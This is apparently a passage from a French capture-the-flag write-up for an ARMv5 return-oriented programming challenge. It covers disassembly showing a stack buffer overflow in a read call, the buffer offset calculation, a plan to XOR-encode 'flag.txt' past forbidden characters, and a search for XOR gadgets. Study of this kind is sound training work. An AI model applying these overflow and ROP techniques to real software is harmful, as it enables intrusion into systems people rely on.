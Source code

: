     │           0x0000084c      0300a0e1       mov r0, r3                  ; 0x974 ; "Thank you!" ; const char *s
    │           0x00000850      54ffffeb       bl sym.imp.puts             ; int puts(const char *s)
    │           0x00000854      0000a0e1       mov r0, r0                  ; 0x974 ; "Thank you!"
    │           0x00000858      08d04be2       sub sp, var_8h
    └           0x0000085c      1088bde8       pop {r4, fp, pc}

Lecture du message

    │           ; var void *buf @ fp-0x38
    │           0x0000079c      3c304be2       sub r3, fp, 0x3c
    │           0x000007a0      103083e2       add r3, buf
    │           0x000007a4      022ca0e3       mov r2, str._               ; 0x200
    │           0x000007a8      0310a0e1       mov r1, r3                  ; void *buf
    │           0x000007ac      0000a0e3       mov r0, 0                   ; int fildes
    │           0x000007b0      76ffffeb       bl sym.imp.read             ; read(int fildes, void *buf, size_t nbyte)

Le déassemblage de gdb est au final plus clair

    0x3ffc079c <+136>:   sub     r3, r11, #60    @ 0x3c
    0x3ffc07a0 <+140>:   add     r3, r3, #16
    0x3ffc07a4 <+144>:   mov     r2, #512        @ 0x200
    0x3ffc07a8 <+148>:   mov     r1, r3
    0x3ffc07ac <+152>:   mov     r0, #0
    0x3ffc07b0 <+156>:   bl      0x3ffc0590 <read@plt>

En fait au moment du call : r1 = r11 -0x3c + 0x10 = fp - 0x2c

Et si on regarde le début de la fonction

    0x3ffc0714 <+0>:     push    {r4, r11, lr}
    0x3ffc0718 <+4>:     add     r11, sp, #8
    0x3ffc071c <+8>:     sub     sp, sp, #52     @ 0x34

On voit que r11 = fp = sp+8 avant la création de la pile locale.

Le buffer de lecture est donc à un offset 0x24 du début de la pile.


## Construction de l'attaque

### Le plan


On va d'abord écrire "flag.txt" avec les caractères interdits modifié par une xor.
Puis xorer de nouveau chaque caractère en mémoire pour obtenir la valeur initiale.

Ce qui nous donne avec un `xor 3` : 'flbd-t{t'.


### Recherche de gadgets

Un gadget xor :

    05_badchars# ROPgadget --binary badchars_armv5 --depth 4|grep eor
    0x0001061c : eor r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x00010618 : ldr r1, [r5] ; eor r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
